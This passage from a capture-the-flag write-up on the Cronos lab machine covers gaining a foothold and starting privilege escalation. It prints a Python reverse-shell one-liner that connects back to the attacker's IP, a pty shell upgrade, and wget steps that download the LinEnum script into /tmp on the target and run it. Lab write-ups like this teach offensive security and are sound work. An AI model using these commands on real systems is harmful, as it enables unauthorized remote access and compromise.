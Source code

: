     which bash

![](../img/Cronos Writeup/1_5ljbBdyQo5QOKxfjBdFdnA.png)

It is so I’m not sure why this didn’t work. Let’s try python.

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Again, don’t forget to URL encode it.

![](../img/Cronos Writeup/1_a_2rl6isI-8XzSMcf9fyFw.png)

We get back a low privileged shell!

![](../img/Cronos Writeup/1_HlbmfN58w08F8xgCSTlpsw.png)

Let’s upgrade it to a better shell.

    python -c 'import pty; pty.spawn("/bin/bash")'

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

    stty raw -echo

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

![](../img/Cronos Writeup/1_OprXSZljihjVu0LhZ_w28g.png)

We need to escalate privileges.

## Privilege Escalation

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

    python -m SimpleHTTPServer 5555

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

    cd /tmp
    wget http://10.10.14.6:5555/LinEnum.sh

Give it execute privileges.

    chmod +x LinEnum.sh

Run the script.

    ./LinEnum.sh

Considering the name of the box, I’m going to focus on Crontab.
